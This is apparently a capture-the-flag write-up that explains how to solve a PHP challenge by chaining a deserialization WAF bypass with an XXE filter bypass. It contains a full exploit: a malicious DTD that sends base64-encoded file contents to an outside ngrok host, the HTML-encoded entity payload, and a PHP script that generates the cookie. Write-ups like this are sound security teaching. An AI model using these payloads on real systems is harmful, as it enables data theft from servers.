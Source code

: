 ```yaml
---
layout: default
title:  "DOUBLE WAFFL3"
date:   2022-03-08 12:47:20 -0500
categories: jekyll update
permalink: /bloghub/double-waffle/
---
```

## Introduction

In this challenge we will take advantage of PHP deserialization attack to send our XXE payload through HTTP Cookies, But first we have to Bypass 2 WAFS! let’s get started. 

### Code Analysis
**_index.php_** 
We can see below a new object is defined of type _XmlParserModel_ passing to it the _.env_ file, we will get back to this class later. The interesting part here is were the application defines a cookie of type _UserModel_, moving forward it serializes the cookie and sends it back the the user as shown below.
```php
new XmlParserModel(file_get_contents('.env'));

if (empty($_COOKIE['PHPSESSID']))
{
    $user = new UserModel;
    $user->username = substr(uniqid('guest_'), 0, 10);
    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($user)), 
        time()+60*60*24, 
        '/'
    );
}
```
Two different routes are defined within the application
**_index.php_** 
```php 
$router = new Router();

$router->new('GET', '/', fn($router) => $router->view('menu'));
$router->new('POST', '/api/order', 'OrderController@order');
```
**POST** requests to _/api/order_ route calls the _order(_) function from its  _OrderController.php_ module, let’s check it out.
**_OrderController.php_** 
```php 
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        $cookie = base64_decode($_COOKIE['PHPSESSID']);
        safe_object($cookie);
        $user = unserialize($cookie);
```
Now Let’s take a look into the _safe_object()_ function 
**_OrderController.php_** 
```php 
function safe_object($serialized_data)
{
    $matches = [];
    $num_matches = preg_match_all('/(^|;)O:\d+:"([^"]+)"/', $serialized_data, $matches);

    for ($i = 0; $i < $num_matches; $i++) {
        $methods = get_class_methods($matches[2][$i]);
        foreach ($methods as $method) {
            if (preg_match('/^__.*$/', $method) != 0) {
                die("Unsafe method: ${method}");
            }}}}
```
So what this function does briefly is that it takes the serialized payload and uses regex to search for the occurrences of `o:<some number>:"<class name>"`, extracts the class name, and calls **get_class_methods()** function to check for all functions of a class, iterates over them, if a PHP magic method such as **constructor**, **wakeup** .. etc is found, it will match the second regex, thus the application will call **die()** to end the application. 

Before trying to bypass the WAF, we have to build our PHP gadget, we have to find a useful class that uses any magic methods. 

**_XmlParserModel.php_**
```php 
 <?php
class XmlParserModel
{
    private string $data;
    private array $env;

    public function __construct($data)
    {
      
        $this->data = $data;
    }

    public function __wakeup()
    {
        if (preg_match_all("/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im", $this->data))
        {
            die('Unsafe XML');
        }
        $env = @simplexml_load_string($this->data, 'SimpleXMLElement', LIBXML_NOENT);

        if (!$env) 
        {
            die('Malformed XML');
        }

        foreach ($env as $key => $value)
        {
            $_ENV[$key] = (string)$value;
        }
    }

}
```
 
As we can see above, this class uses  **__wakeup()**, and uses regex again to check for malicious XXE payload, it filters the occurrence of **<!ENTITY file SYSTEM "file:///path/to/file">**. if a match is found, the application is suspended, else it will parse the XML.
### Building the exploit 
In order to build our exploit, we have to create a new serialized object of type **_XmlParserModel_** and set the **$data** to XXE payload that reads the flag, but first let’s bypass the **_safe_object()_**

### KILL WAF #1
Inspired from the [Composr CMS Remote Code Execution](https://github.com/MegadodoPublications/exploits/blob/master/composr.md), We can easily bypass the poor regex by defining an array object with a string of value **";O:2:"** at index 0, then passing our malicious object to the next index.
For example, In the payload below, the regex will match **;O:10**, as if it’s a class name, bypassing the **_get_class_methods()_**
```markdown 
// a:1:{s:5:";O:2:";O:10:"HelloWorld":0:{}};
//           ^           ^
// match   begin        end
```
### KILL WAF #2 
The XXE WAF can be bypassed through HTML encoding our malicious crafted entity, but to make things easier, we will exfiltrate data through an out-of-band OBB channel using HTTP by utilizing parameter entities, we will use **<!ENTITY % dtd SYSTEM "http://attackerserver.com/malc.dtd" >** to refer to a DTD defined and hosted on our remote server, and that’s for the purpose of bypassing the regex once only. 
We can now craft our payload and save it into a file, then host it. 

**_malc.dtd_** 
```xml 
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/secret">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://8cda-188-247-74-33.ngrok.io/bypass.xml?%data;'>">
%abt; 
``` 
Now creating our XXE payload, First let’s define our private entity to import the remote the DTD. 
```xml 
<!ENTITY % dtd SYSTEM "http://8cda-188-247-74-33.ngrok.io/malc.dtd" > 
``` 
HTML encoding is equivalent to:  
```markdown
&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;
&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;
&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;
&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;
&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;
&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;
&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;
&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;
```
Inject the entity into the DOCTYPE: 
```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;" >
  %a; 
  %dtd;
]>
<data><env>&exfil;</env></data>
``` 
 
## Final Exploit  
Our final exploit will look like  
```php 
  <?php

class XmlParserModel { 

	public function __construct($data)
    {	

    	$this->data = $data; 
    } 

}
$exploit = serialize([";O:2:" => new XmlParserModel('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;" >%a;%dtd;]><data><env>&exfil;</env></data>')]);
echo base64_encode($exploit); 
 
?>
``` 

